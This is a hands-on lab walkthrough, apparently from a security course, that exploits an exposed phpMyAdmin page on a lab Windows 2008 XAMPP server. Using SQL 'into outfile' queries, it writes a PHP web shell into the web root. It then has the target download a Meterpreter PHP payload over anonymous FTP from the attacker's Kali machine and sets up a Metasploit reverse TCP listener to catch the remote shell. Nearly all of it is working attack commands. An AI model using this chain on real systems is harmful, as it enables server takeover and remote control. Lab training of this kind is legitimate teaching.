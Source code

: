 # Task 2: Exploiting an Open phpMyAdmin Page
Suppose we didn't know the WebDAV credentials. We could still exploit this server via phpMyAdmin. phpMyAdmin is another convenience incuded in XAMPP, which provides a GUI for MySQL server administration.

On your Kali machine, in IceWeasel, enter this URL, replacing the IP address with the IP address of your Windows 2008 Server target.

       	http://192.168.119.130/phpmyadmin
You see the phpMyAdmin page, with fields and buttons allowing you to manage MySQL databases

This page should not be exposed to the Internet

- In the phpMyAdmin page, at the top, click SQL.
- We can run SQL queries on the server with this page. Enter this query into the box, as shown below:
```
    	SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"
```

This SQL query will write a PHP file that executes the "cmd" command into a file named "shell.pmp" on the server.

This amounts to the same thing we were able to do with the default WebDAV credentials.
- In the phpMyAdmin page, at the bottom right, click Go.
The phpMyAdmin home page appears.
- Open a new IeWeasel tab and enter this URL, replacing the IP address with the IP address of your Windows 2008 Server target.
```
	http://192.168.119.130/shell.php
```
You see a 'Warning...Cannot execute a blank command" message, as shown below. (My URL contains "shell2.php" because I made a mistake with the first query. If you're careful, that won't happen to you.)

We can't just execute "cmd" -- we need to specify a command to execute.
- In IceWeasel, add "?cmd=ipconfig" to the end of the URL, like this:
	http://192.168.119.130/shell.php?cmd=ipconfig
You see the output of the IPCONFIG command, as shown below.


## Using FTP to Upload Malware
We'd like to upload a more powerful program, such as the "meterpreter.php" attack we created previously. We could host the file on our Kali box with Apache, but Windows doesn't include any command-line browser tool like wget or curl for us to use.

Real malware often uses FTP to upload files.

#### Starting an FTP Server on Kali
On Kali, in a Terminal window, execute these commands, which will install vsftpd, create a directory it requires, copy the meterpreter.php file to its default directory, and edit the configuration file:
```
	apt-get update apt-get install vsftpd -y
	mkdir /var/run/vsftpd
	mkdir /var/run/vsftpd/empty
	cp /tmp/meterpreter.php /srv/ftp nano /etc/vsftpd.conf
  ```
In nano, change
```
	anonymous_enable=NO
to
	anonymous_enable=YES
```

- Press Ctrl+X, Y, Enter to save the file.
- On Kali, in a Terminal window, execute this command:
```
vsftpd
```
Leave this window open.
Creating an FTP Script on the Target Windows Machine
On Kali, in IceWeasel, in the phpMyAdmin page, at the top, click SQL. Enter this query into the box, as shown below:
```
	SELECT "anonymous", "a@b.com", "lcd C:\xampp\htdocs", "get meterpreter.php" into outfile "C:\\xampp\\htdocs\\script" FIELDS TERMINATED BY '\n'
```

- In the phpMyAdmin page, at the bottom right, click Go.
The phpMyAdmin home page appears.
- Open a new IeWeasel tab and enter this URL, replacing the IP address with the IP address of your Windows 2008 Server target.
```
	http://192.168.119.130/script
```
You see a script containing four lines of FTP commands, as shown below. The first two lines are the username and password for an anonymous logi.
The lcd command changes the local working directory to the home directory for the Web server.
The last command downloads meterpreter.php.



#### Running the FTP Transfer
- Open a new IeWeasel tab and enter this URL, replacing the first IP address with the IP address of your Windows 2008 Server target and the second IP address with the IP address of your Kali machine.
	http://192.168.119.130/shell.php?cmd=ftp -s:script 192.168.119.131
You see the output of the FTP commands, ending with "Transfer complete", as shown below.


#### Starting a Metasploit Listener
- On your Kali machine, execute these commands, replacing the IP address with the address of your Kali machine:
```
	msfconsole use multi/handler
	set payload php/meterpreter_reverse_tcp
	set LHOST 192.168.119.131
	set LPORT 443 exploit
  ```
Metasploit is now waiting for connections


#### Launching the Meterpreter Shell
- Open a new IeWeasel tab and enter this URL, replacing the IP address with the IP address of your Windows 2008 Server target.
	http://192.168.119.130/meterpreter.php
The browser hangs, but the Metasploit listener should show a "Meterpreter session opened" message. as shown below.
